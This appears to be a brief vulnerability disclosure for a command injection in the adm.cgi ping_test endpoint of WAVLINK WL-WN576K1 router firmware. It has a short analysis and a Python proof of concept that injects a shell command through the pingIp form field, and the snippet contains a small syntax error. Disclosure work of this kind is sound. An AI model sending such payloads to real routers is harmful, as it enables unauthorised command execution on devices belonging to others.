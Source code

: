 # command injection

## WAVLINK_WL_WN576K1

version: 20220801

## Description:

There is a command injection in adm.cgi/ping_test

## Source:

you may download it from : 

[WL-WN576K1 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/5ce8519bd8.html)

## Analyse:

![](6.png)

get value from pingIp, then call do_system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1  ;' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'pingIp': + payload,'SYSPASS':'yours'})
```
